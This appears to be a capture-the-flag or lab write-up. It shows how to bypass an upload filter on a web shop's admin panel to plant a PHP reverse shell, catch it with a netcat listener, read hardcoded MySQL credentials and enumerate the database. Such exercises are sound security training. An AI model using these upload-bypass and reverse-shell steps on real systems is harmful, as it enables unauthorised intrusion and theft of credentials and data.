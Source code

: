 ## Get access to the database
**Goal:** Find a file upload attack and use it to upload some php that lets you view the source code of the mysql.php page. On this page you will find the SQL database password. Use this to access the database where you will find another token. Submit this token to the token submission website.

The first step in this problem is to find an avenue to upload files. From the administrator panel, we notice the 'add new products' tab, which brings us to an option to add a new item (and upload an image as a part of it). This seems like the ideal vector of attack. To try and find the mysql.php page, I've decided to create a [payload](reverse_shell.php) that opens a reverse shell inside my `kali-vm`, which will allow me to execute any bash commands I'd like. I set up burpsuite to intercept my request. After intercepting the request, I noticed there are 2 relevant sections to change. The `Content-Type` of the request needs to be updated to `image/jpeg` to try and trick the server. Also, at the bottom of the request, we can see the filename that the file will be saved as on the web server. This needs to be updated to have the right file extension (I called it `reverse_shell.php`).

After uploading this, we can navigate to our uploaded file at `http://10.6.66.66/img/uploads/reverse_shell.php`. By first running `nc -lvp 42069`, then navigating to the page, our reverse shell is set up. By running `locate mysql.php`, we find the file path to our file. After running `cat` on the file, we now have the contents of `mysql.php`:
```php
// create a connection the database engine
$db = mysql_connect("127.0.0.1", "csecvm", "H93AtG6akq");
if(!$db)
  die("Couldn't connect to the MySQL server.");

// change database
$use = mysql_select_db("csecvm", $db);
if(!$use)
  die("Couldn't select database.");
```

We now have the following information:
- Database address `127.0.0.1` (localhost)
- Username `csecvm`
- Password `H93AtG6akq`
- Database name `csecvm`

From here, we can now query the database using the following command:
```
$ mysql -h "{hostname}" -u "{username}" -p "{database_name}" -e "{SQL_query}"
```
After submitting this query, we will be prompted for the password, which we need to submit. However, since we're using a reverse shell, we will not be able to see this prompt, and therefore just need to submit the password after submitting the query.

To start with I wanted to gather more information about the database, so I ran:
```
mysql -h "127.0.0.1" -u "csecvm" -p "csecvm" -e "SELECT DISTINCT table_schema FROM information_schema.columns"

table_schema
information_schema
csecvm
mysql
performance_schema
sys
```
The schema we are most likely interested in is `csecvm`, so I looked at this one more closely:
```
mysql -h "127.0.0.1" -u "csecvm" -p "csecvm" -e "SELECT table_name, column_name FROM information_schema.columns WHERE table_schema='csecvm'"

table_name      column_name
basket          user_id
basket          product_id
basket          quantity
```